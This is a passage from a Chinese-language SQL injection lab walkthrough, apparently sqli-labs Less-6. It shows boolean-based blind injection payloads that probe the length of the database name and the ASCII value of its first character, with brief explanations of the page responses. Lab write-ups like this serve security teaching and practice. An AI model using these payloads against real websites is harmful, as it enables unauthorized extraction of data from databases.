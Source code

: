 

+ 确认数据库名长度

~~~ shell
?id=1"and length((select database()))>7--+
~~~

![Less-6_5](./img/Less-6_5.PNG)

返回了正确页面，说明数据库名确实是大于7；同理可根据返回的页面正确与否逐步试探出数据库名的长度



+ 注入以下语句判断数据库名的第一个字符

~~~ shell
?id=1"and ascii(substr((select database()),1,1))=115--+
~~~

![Less-6_6](./img/Less-6_6.PNG)
